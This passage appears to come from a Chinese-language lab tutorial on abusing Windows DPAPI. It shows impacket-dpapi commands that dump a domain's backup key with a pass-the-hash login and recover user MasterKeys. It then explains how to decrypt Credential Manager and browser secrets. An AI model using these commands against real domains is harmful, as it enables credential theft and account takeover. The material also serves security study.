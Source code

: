 ```bash
# 远程转储域备份密钥
impacket-dpapi backupkeys -t offseclabs.tech/Administrator@srvad01.offseclabs.tech -hashes :570a9a65db8fba761c1008a51d4c95ab -dc-ip 10.10.10.11 --export
# 通过域备份密钥恢复 MasterKey
impacket-dpapi masterkey -file '<Path to MASTER_KEY_FILE>' -pvk '<Path to DOMAIN_BACKUP_KEY_EXPORT_PVK_FILE>'
```

![image-20250929131107931](/assets/posts/2025-09-30-a-journey-into-dpapi-and-chrome-theft/image-20250929131107931.png)

# Decrypt DPAPI-protected Data

一旦成功获取并解密用户的 MasterKey，攻击者就能解锁该 MasterKey 下所有受 DPAPI 保护数据的访问，典型目标包括凭据管理器中的用户凭据和浏览器保存的密码与 Cookie。

## Decrypting Credential Manager Vault

Windows 凭据管理器（Credential Manager）是操作系统提供的一个安全存储机制，用于保存用户的账户凭据，例如网站密码、域账户、应用程序登录信息等。这些凭据数据统一保存在 Credential Manager Vault（凭据保管库） 中，而 Vault 的底层存储位置主要位于本地 `%USERPROFILE%\AppData\Local\Microsoft\Credentials` 目录，该目录下的凭据文件同样被作为系统文件永久隐藏。

最重要的是，凭据文件由 Vault 系统统一管理，这些凭据的核心机密部分并不是明文存储，而是依赖 DPAPI (Data Protection API) 进行加密保护。
